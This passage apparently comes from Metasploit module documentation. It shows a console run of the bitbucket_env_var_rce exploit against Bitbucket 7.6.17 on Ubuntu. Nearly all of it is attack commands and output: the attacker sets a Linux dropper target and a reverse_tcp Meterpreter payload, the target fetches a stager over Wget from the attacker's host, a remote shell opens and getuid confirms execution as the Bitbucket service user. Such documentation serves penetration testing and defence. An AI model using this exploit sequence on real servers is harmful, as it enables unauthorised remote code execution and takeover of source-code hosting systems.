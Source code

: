 ```
Linux gitlab-virtual-machine 5.15.0-58-generic #64-Ubuntu SMP Thu Jan 5 11:43:13 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=1001(atlbitbucket) gid=1001(atlbitbucket) groups=1001(atlbitbucket)
```

### Ubuntu 22.04 x64 - Bitbucket `v7.6.17`, Linux Dropper

```
msf exploit(multi/http/bitbucket_env_var_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
    0   Linux Command
=>  1   Linux Dropper
    2   Windows Dropper


msf exploit(multi/http/bitbucket_env_var_rce) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Project creation was successful
[+] Successfully created repository 'gmoQNc'
[+] Commits added: d355924ddef6869f5bbd7673c2a2d67c14ccd56d, cbd85c6309ab2830455c1796898f9677e10227e5
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/VtgFQ7yCgjcP
[*] Client 192.168.140.149 (Wget/1.21.2) requested /VtgFQ7yCgjcP
[*] Sending payload to 192.168.140.149 (Wget/1.21.2)
[*] Command Stager progress -  53.04% done (61/115 bytes)
[*] Command Stager progress -  72.17% done (83/115 bytes)
[*] Sending stage (1017704 bytes) to 192.168.140.149
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.149:50632) at 2023-03-13 14:06:18 -0500
[*] Command Stager progress -  83.48% done (96/115 bytes)
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Changing user name back to 'test'
[+] Repository has been deleted
[+] Project has been deleted

meterpreter > getuid
Server username: atlbitbucket
```
